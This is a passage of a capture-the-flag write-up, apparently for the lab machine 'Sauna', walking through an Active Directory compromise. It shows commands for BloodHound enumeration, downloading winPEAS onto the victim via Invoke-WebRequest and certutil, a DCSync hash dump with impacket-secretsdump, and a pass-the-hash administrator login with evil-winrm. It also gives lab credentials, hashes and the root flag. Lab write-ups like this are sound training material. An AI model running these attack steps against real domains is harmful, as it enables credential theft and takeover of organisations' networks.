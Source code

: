 `bloodhound-python -d egotistical-bank.local -u fsmith -p Thestrokes23 -ns 10.10.10.175 -c all`

I'll say as well, it worked well. If there's a reason one doesn't want to transfer another ingester like SharpHound to the victim, this is a fine and easy alternative.

After dumping the contents into the software for my POC graph and map, I used `winPEAS` as well to enumerate a bit further. Of course, transferring the file didn't come without its fair share of issues. After lots of trial and error, I think the problem is making sure it's the correct kind of file, and saving it to an outfile on the victim machine. I used `python3 -m http.server 80` to host, and then used:

`powershell "Invoke-WebRequest -UseBasicParsing 10.10.14.3:80/winPEASany.exe -OutFile winPEAS.exe"`

 Use `.\winPEAS.exe` to execute the file when ready.

(Putting `certutil` here if nothing else works as a backup for whoever needs: `certutil.exe -urlcache -split -f (http://10.10.10.10/winpeas.exe) winpeas.exe`)

`winPEAS` constantly punches above it's weight, and this time is no different. An account called `svc_loanmgr` has credentials stored in plaintext.

![Image](/assets/Screenshot 2024-09-15 at 4.44.51 PM.png)

`svc_loanmgr | Moneymakestheworldgoround!`

With this, we can not only migrate accounts, but update our plan of action in bloodhound for a new strategy. 

Upon doing so, I recognized that the account has privileges akin higher access accounts, and we'll be able to abuse this with a DcSync attack, just like we did with Forest. 

Because the path forward is very simple, and root is a `secrets-dump` away, I went for the flag. In a thorough engagement, be sure to re-enumerate with the new credentials. Always.

We can use the following command to try and get NTLM hashes for all user accounts, now that we have the permissions to do so:

`impacket-secretsdump EGOTISTICAL-BANK/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175`

![Image](/assets/Screenshot 2024-09-15 at 5.13.08 PM.png) 

SYNTAX IS VERY TOUCHY! Be careful here, as the only way I could get this to work was by prepending the command with `impacket`, as shown. Something must be wrong with the library I built using the `git` repo, but that's a problem for another day.

With the hashes, we can now pass the `administrator` hash using `evil-winrm` for access to the DC.

`ruby /var/lib/gems/3.1.0/gems/evil-winrm-3.5/evil-winrm.rb -i 10.10.10.175 -u administrator -p aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e`

![Image](/assets/Screenshot 2024-09-15 at 5.15.57 PM.png)

Nothing better...

`ROOT:b91c1572435d61d7d5c74b64c8278415`

#easy #windows #manual 
